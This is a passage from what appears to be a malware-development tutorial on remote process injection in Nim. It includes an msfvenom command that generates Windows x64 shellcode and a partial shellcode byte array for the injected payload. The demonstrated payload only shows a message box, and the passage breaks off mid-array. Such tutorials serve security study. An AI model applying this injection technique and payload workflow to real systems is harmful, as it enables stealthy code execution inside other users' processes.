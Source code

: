 ```nim
    echo "thread Handle: ", th
```

As you can see, the logic is the same as in the C code: open process handle, allocate memory, copy memory and run thread. But the only difference is how we can generate payload for nim language?     

For this we can use `msfvenom`:    

```bash
msfvenom -p windows/x64/messagebox TEXT='meow-meow!' TITLE='cat' -f csharp
```

![img](./img/2024-06-01_12-02.png)    

In our case little bit modify this brackets and variable:   

```nim
var payload: array[282, byte] = [
byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
```
